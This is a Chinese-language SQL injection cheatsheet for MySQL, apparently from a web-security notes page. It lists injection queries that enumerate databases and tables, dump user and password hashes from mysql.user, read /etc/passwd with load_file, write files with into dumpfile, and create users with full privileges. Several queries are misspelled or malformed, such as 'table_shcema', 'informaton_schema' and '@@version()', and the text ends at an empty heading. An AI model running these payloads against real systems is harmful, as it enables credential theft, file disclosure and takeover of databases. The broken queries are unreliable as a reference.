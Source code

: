 ```yaml
---
title: SQLi Cheatsheet
categories:
- Web
---
```





## SQLi中的常用SQL查询（MySql）

### 信息搜集

| 信息类型              | 查询                                                                                                                                                                                             |
| --------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| 数据库版本            | `select version()`<br />`select @@version()`                                                                                                                                                     |
| 当前用户              | `select system_user()`<br />`select user()`                                                                                                                                                      |
| 数据库用户            | `select concat(host,"@",user) from mysql.user`                                                                                                                                                   |
| 数据库用户密码        | `select concat(host, "@",user,":",password) from mysql.user`                                                                                                                                     |
| 数据库管理员账户      | `select concat(host, "@", user) from mysql.user where Super_priv='Y'`<br />`SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER'` |
| 当前数据库            | `select database()`                                                                                                                                                                              |
| 列举所有数据库        | `select schema_name from information_schema.schemata`                                                                                                                                            |
| 列举数据库A的所有表名 | `select table_name from information_schema.tables where table_shcema='A'`                                                                                                                        |
| 列举表A的所有列名     | `select column_name from informaton_schema.columns where table_name='A'`                                                                                                                         |
| 列举包含列A的所有表   | `select concat(schema_name,"-",table_name) from information_schema.columns where column_name='A'`                                                                                                |
| 主机名（IP）          | `select @@hostname`                                                                                                                                                                              |
| mysql路径             | `select @@datadir`                                                                                                                                                                               |

### 数据库操作

| 操作类型       | 查询                                                                                                       |
| -------------- | ---------------------------------------------------------------------------------------------------------- |
| 文件访问       | `select load_file('/etc/passwd') #读文件`<br />`select * from users into dumpfile '/tmp/dump.txt' #写文件` |
| 创建用户       | `create user myuser identified by 'mypass'`                                                                |
| 删除用户       | `drop user myuser`                                                                                         |
| 赋予管理员权限 | `grant all privileges on \*.\*  to test1@'%'`                                                              |

### 关键语法
